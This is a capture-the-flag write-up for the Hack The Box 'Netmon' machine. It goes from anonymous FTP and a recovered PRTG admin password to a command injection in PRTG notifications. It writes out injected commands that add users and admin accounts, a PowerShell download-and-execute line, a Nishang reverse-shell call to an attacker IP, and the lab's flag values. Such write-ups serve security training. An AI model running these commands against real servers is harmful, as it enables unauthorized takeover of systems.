





# NetMon <!-- omit in toc -->

# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
    - [Ports](#ports)
    - [Directories](#directories)
- [Recon](#recon)
    - [FTP](#ftp)
    - [Web Service](#web-service)
- [Exploit](#exploit)
- [Flags](#flags)
    - [User Flag](#user-flag)
    - [Root Flag](#root-flag)

# Scan Results

## Nmap
```
Nmap 7.80 scan initiated Thu Mar  5 17:29:40 2020 as: nmap -sC -sV -oA ./Documents/HackTheBox/Netmon/Scans/nmap 10.10.10.152

Nmap scan report for 10.10.10.152
Host is up (0.091s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5s, deviation: 0s, median: 5s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-05T17:30:02
|_  start_date: 2020-03-05T17:24:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  5 17:30:01 2020 -- 1 IP address (1 host up) scanned in 20.48 seconds
```

### Ports
* 21 - FTP:  Anonymous login
* 80 - HTTP: Custom web server probably made by PRTG

  Following are the standard SMB ports:

* 135 - msrpc: Microsoft Remote Procedure Call
* 139 - [Netbios](https://en.wikipedia.org/wiki/NetBIOS#Services)
* 445 - microsoft-ds - SMB: "Server Message Block."  
  SMB is a network protocol used by Windows-based computers that allows systems within the same network to share files. It allows computers connected to the same network or domain to access files from other local computers as easily as if they were on the computer's local hard drive.  
  With an administrative username we can use PSEXEC and get a remote shell.

### Directories
Running dirbuster or gobuster doesnt yield any intersting information.

# Recon
### FTP
the ftp serer allows anonymous login to the box: `ftp 10.10.10.152`
the username is: `Anonymous` and the password can be left blank



#### Commands: <!-- omit in toc -->
* `dir` - List files
* `dir -a` - Show hidden files.
* `ls`  - List files - jist like dir
* `cd`  - Change directory. spaces in the file path can be escaped by `\` (backslash) or use double quotes.
* `get` - Download a file.
* `pwd` - Print current directory.
* `lcd` - Canges the working directory on the local computer. By default, the working directory is the directory in which ftp was started. Files which were download using the get command will go into this folder.
* `?`   - Shows all the possible commands.

The User.txt file can be found on `Users\Public` folder.

#### Getting more information about this box: <!-- omit in toc -->
Interesting files to grab inorder to get information about the machine: [Path Traversal Cheat Sheet: Windows](https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

For example the hosts file:

1. `\WINDOWS\System32\drivers\etc\hosts` - hosts file.
   
These are not included in the list but are interesting as well:

1. `\WINDOWS\WindowsUpdate.log` - Inforamtion about the updates that were applied.
2. `\WINDOWS\SoftwareDistribution\Download` - Windows updates are placed here.
3. `\WINDOWS\System32\license.rtf` - Windwos license file which can tell us which version of windows is running

### Web Service
By this point we got the user flag and alot of information about the machine. Using the ftp prompt we notice that we dont have access to the \Users\Administrator folder, so lets look at the web server.

Running dirbuster or gobuster doesnt yield any intersting information.
Searching exploit-DB we find no exploit which we can fire and forget.

After some more googling we find: [PRTG < 18.2.39 Command Injection Vulnerability](https://www.codewatch.org/blog/?p=453). According to this post:

> ... Many network monitoring tools include the capability of running external programs as part of a “notification” as a feature. PRTG is no exception ...

that is if we can log into the web server. The default credentials “prtgadmin / prtgadmin” do not work.  

Some more googling and we find this: [How and where does PRTG store its data?](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data). This gives us a hint that maybe we should go back to the ftp prompt and look around for the installation directory of this "Network Monitor" application. Looking in **Program Files** and **Program Files (x86)** we find noting of interest. If we remember to use `dir -a` we can find the **Program Data** folder



navigate to `/ProgramData/Paessler/PRTG Network Monitor` and get the configuration _.old.bak_ file. Rename the file to _.xml_ and view in the browser if you like.



Scrolling down we see:

```xml
<dbpassword>
    <!-- User: prtgadmin -->
    PrTg@dmin2018
</dbpassword>
```

This password doesnt work, but remember that this is a backup file, so change 2018 to 2019 and success! we are in.

```
User: prtgadmin
Password: PrTg@dmin2019
```

# Exploit
The post says that we can run external programs using a notification. To test this, lets make the server ping us back. First start tcpdump for icmp pcakets on the tun0 interface.
```
tcpdump -i tun0 icmp
```

On the web page click on Setup > Account Settings > Notifications.
Edit an existing notification by pressing on the edit icon to the right, and then press the wrench icon.



Scroll down to the "Execute Program". The post mentions that we cant run any program except the two provided, and the only the powershell script works.



As the _Program File_ choose outfile.ps1 and on the _Parameter_ paste:
```
test | ping -n 1 10.10.14.24
```

This will send one ping back to us (update the ip address as necessary). Save the changes and trigger the notification by clicking on the edit icon and then the bell icon. Look at the tcpdump, and success! the server pinged us back.

Now that we know it works, lets try the command mentioned in the post:
```
test.txt | net user pentest password /add
``` 
This adds a user called _pentest_ with password _password_. Not sure how to use this new user, lets try FTP as the new user. Unfortunately this doesnt work. Trying again, now adding the user to the allowed FTP users:
```
test.txt | net user pentest password /add ; test.txt | net localgroup FTPUsers pentest /add
```

No luck. Again lets try adding to the administrators group:

```
test.txt | net user pentest password /add ; net localgroup administrators htb /add
```
and still cant FTP.

> **Notice:** Later on I discovered that in order to connect you should use `psexec.py` 
> which is psexec written in python. We can get it from [SecureAuthCorp - Impacket](https://github.com/SecureAuthCorp/impacket), but I didnt want to install it.
> So the above commands might have worked.

Lets try a reverse shell using the [Nishang](https://github.com/samratashok/nishang) _**Invoke-PowerShellTcp**_ shell script.

> Clone the repo to `/opt` if you dont have it. 

Copy the script, so we wont damage the original one, and rename it to something easy like _reverse.ps1_. Now edit the script and at the bootom, after the last `}`, add the following line:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 80
```
making sure to write the correct ip. Now start a python SimpleHTTPServer and a netcat listener:

```
python -m SimpleHTTPServer
```

```
nc -lvnp 80
```

Just like before go to the webpage and add the following line to the Parameter field:

```
test|IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/reverse.ps1')
```

Save the changes, and trigger the notification.

On the python HTTP Server we can see that the script was downloaded, but wasnt executed because we didnt get a shell on the netcat listener. The post say that some characters get encoded, so the script probably has some bad characters. To resolve this we can try base64 encoding the script itself.

```
cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
```
This copies the output of the encoding to our clipbooard. Back in the notification parameter field:

```
test | powershell -enc [Encoded Script]
```
**Without** the square brackets!

Finally the netcat listener returns a shell. Go to the Administrator Desktop to find the flag.

# Flags

### User Flag
The User.txt file can be found on `Users\Public` folder. **dd58ce67b49e15105e88096c8d9255a5**


### Root Flag

The root.txt file is on the desktop of the Administrator user. **3018977fb944bf1878f75b879fba67cc**

